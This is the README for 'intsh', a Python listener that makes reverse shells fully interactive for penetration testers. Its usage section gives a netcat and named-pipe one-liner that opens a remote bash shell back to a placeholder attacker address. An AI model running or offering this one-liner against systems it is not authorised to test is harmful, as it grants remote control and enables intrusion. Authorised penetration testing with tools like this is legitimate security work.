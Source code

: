 # intsh
Grab a fully interactive reverse-shell

intsh is a reverse-shell listener for pentesters too lazy to make their reverse shell interactive manually.

intsh automates the process of spinning up a listening socket, setting the tty to raw mode, setting the columns and rows, and handling terminal resizes.

It ensures interactive programs like vim can be used flawlessly through reverse-shells.

## Usage:
Local-side (listener):
```sh
python3 intsh.py <port>
```

Remote-side:
```sh
rm -f f; mkfifo f; <f nc <attacker-ip> <attacker-port> | bash > f
```
